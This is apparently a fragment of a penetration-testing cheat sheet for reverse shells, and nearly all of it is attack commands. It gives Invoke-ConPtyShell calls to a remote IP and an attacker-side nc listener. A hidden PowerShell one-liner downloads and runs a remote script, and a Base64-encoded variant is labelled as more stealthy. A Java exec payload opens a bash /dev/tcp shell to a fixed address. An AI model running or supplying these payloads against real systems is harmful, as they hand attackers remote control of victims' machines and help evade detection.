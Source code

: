 ```bash
Invoke-ConPtyShell -RemoteIp [IP] -RemotePort [Port] -Rows 30 -Cols 90 -CommandLine cmd.exe
#Upgrade your current shell with specific rows and cols size
Invoke-ConPtyShell -Upgrade -Rows 30 -Cols 90
```
-  <mark>One-Liner</mark>
```bash
# On Attacker Machine
stty raw -echo; (stty size; cat) | nc -lvnp [Port]
# To be executed within CMD prompt
powershell.exe -nop -w hidden -c iex(iwr http://[IP]:[Port]/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell [IP] [Port]
```

```bash
# When you need to be more stealthy
# Conversion needs to be done using `UTF-16LE` encoding.Otherwise, it won't decode properly.
powershell.exe -nop -w hidden -e [Base64_Encoded_Command]
```
### Java
```java
java.lang.Runtime.getRuntime().exec('bash -c $@|bash 0 echo [Command]')
// e.g 'bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.45.229/443 0>&1'
```